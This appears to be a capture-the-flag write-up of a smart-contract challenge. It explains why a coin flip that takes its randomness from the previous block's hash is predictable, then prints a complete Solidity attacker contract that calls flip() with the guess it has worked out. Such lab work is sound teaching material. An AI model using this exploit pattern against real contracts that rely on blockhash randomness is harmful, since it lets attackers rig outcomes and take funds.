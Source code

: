 ### Analysis
The critical error here is generating the coin flip result based on the last block number:
~~~
uint256 blockValue = uint256(blockhash(block.number.sub(1))); // NOT random!

...

uint256 coinFlip = blockValue.div(FACTOR);
bool side = coinFlip == 1 ? true : false;
~~~
Blockhashis a global variable that takes blocknumber and returns hash of the given block when blocknumber is one of the 256 most recent blocks; otherwise returns zero.
block.number.sub(1) returns the block number of the last block. Why the last one, not the current one? Because at the time the function is called, the current block is not yet mined.

### The Exploit
I have to call flip() in separate blocks after deployed because of this lastHash check in the contract:

~~~
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

interface ICoinFlip{
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipWrapper{
    uint256 public consecutiveWins=0;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function coinGuess(address _coinFlipAddr) external returns (uint256){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        bool isRight = ICoinFlip(_coinFlipAddr).flip(side);
        if(isRight){
            consecutiveWins++;
        }else{
            consecutiveWins = 0;
        }
        return consecutiveWins;
    }
}
~~~